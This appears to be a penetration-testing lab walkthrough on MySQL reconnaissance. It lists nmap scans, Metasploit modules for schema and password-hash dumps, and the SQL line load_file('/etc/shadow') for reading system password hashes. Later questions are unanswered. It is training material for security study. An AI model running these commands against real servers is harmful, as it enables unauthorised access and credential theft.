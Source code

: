 
MySQL Recon: Basics

1.  What is the version of MySQL server?
```
nmap [ip] -sV -sC
```
- MySQL 5.5.62-0ubuntu0.14.04.1

3.  What command is used to connect to remote MySQL database?
```
mysql -u [username] -h [ip] -p
```

5.  How many databases are present on the database server?
```
show databases;
```

7.  How many records are present in table “authors”? This table is present inside the “books” database.
```
use books;

select * from authors;
```

9.  Dump the schema of all databases from the server using suitable metasploit module?
```
auxiliary(scanner/mysql/mysql_schemadump) // also provides a .txt file with it;
```

11.  How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
```
auxiliary(scanner/mysql/mysql_writable_dirs)

```

13.  How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
```
auxiliary(scanner/mysql/mysql_file_enum)

```

15.  Find the system password hash for user "root".
```
nmap --script mysql-dump-hashes --script-args='username=root' -p 3306 192.12.132.3

select load_file('/etc/shadow');
```

17.  How many database users are present on the database server? Lists their names and password hashes.
```
auxiliary(scanner/mysql/mysql_hashdump)
```

19.  Check whether anonymous login is allowed on MySQL Server.
```
mysql -h 192.82.22.3
```

21.  Check whether “InteractiveClient” capability is supported on the MySQL server.
```

```

23.  Enumerate the users present on MySQL database server using mysql-users nmap script.
24.  List all databases stored on the MySQL Server using nmap script.
25.  Find the data directory used by mysql server using nmap script.
26.  Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
27.  Dump all user hashes using  nmap script.
28.  Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.